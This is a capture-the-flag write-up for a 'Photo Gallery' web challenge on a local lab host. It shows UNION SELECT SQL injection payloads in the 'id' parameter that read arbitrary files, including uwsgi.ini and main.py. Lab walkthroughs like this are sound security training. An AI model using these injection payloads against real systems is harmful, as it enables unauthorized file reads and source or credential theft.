


# Photo Gallery - FLAG0

## 0x00 Check Image Source

Based on [FLAG1][1], when fetching an image id, it will return an image from the **files** directory.

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

## 0x01 Arbitrary File Read

Normally id is integer, so decimal may make an error here.

```sql
fetch?id=1.1
```


So when do UNION SELECT with the image name, it loads the image 1 again.

```sql
id=1.1 UNION SELECT 'files/adorable.jpg' --
```



## 0x02 [uwsgi-nginx-flask-docker][3]

The [hint][4] shows the application run on [uwsgi-nginx-flask-docker][3]. So the configuration file is **uwsgi.ini**

```sql
id=1.1 UNION SELECT 'uwsgi.ini' --
```

The file shows

```
[uwsgi] module = main callable = app 
```

And the main file

```sql
id=1.1 UNION SELECT 'main.py' --
```

Can check the [main.py][2]




[1]: ../flag1
[2]: ./main.py
[3]: https://github.com/tiangolo/uwsgi-nginx-flask-docker
[4]: ../